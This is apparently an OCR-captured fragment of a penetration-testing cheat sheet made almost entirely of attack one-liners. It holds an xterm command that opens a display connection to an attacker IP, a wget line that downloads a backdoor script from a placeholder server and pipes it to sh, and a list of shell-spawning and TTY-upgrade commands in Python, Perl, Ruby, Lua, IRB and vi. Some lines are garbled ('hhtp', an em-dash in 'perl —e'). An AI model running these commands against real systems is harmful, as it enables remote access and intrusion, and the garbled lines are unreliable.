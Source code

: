 ```text
xterm -display 10.0.0.1:1
o Start Listener: Xnest: 1
o Add permission to connect: xhost +victimP
```

### Other

```text
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

### spawn shell


```text
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

```text
try ctrl + z
stty raw -echo 
fg
```

```text
echo os.system('/bin/bash')
```

```text
/bin/sh -i
```


```text
perl —e 'exec "/bin/sh";'
```

```text
perl: exec "/bin/sh";
```

```text
ruby: exec "/bin/sh"
```

```text
lua: os.execute('/bin/sh')
```

```text
(From within IRB)
exec "/bin/sh"
```


```text
(From within vi)
:!bash
```

```text
(From within vi)
:set shell=/bin/bash:shell
```
